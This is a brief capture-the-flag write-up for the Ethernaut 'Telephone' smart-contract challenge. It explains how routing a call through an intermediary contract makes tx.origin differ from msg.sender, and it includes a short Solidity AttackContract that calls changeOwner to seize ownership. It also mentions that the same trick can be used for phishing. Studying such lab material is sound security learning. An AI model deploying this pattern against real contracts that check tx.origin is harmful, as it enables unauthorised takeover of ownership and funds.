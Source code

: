 ## Telephone

1. This one is easy just do it like previous one and call changeOwner... so when you use AttackContract to attack on changeOwner the msg.sender will be AttackContract and self address will be tx.origin => also this tx.origin can be used to do phishing in similar way if someone uses it.
2. success

> putting the code bc i put some effort in writing it in remix

```solidity
interface Telephone {
    function changeOwner(address _owner) external;
}

contract AttackContract {
    Telephone public attack;

    constructor(address _address){
        attack = Telephone(_address);
    }

    function funcAttack(address _newO) public {
        attack.changeOwner(_newO);
    }
}
```

> Btw, I saw that after completing the challenge the problem description changes to congratulate you and also has resources for looking the vulnerability in more detail and solutions. But it is optional and i am already going through secureum.
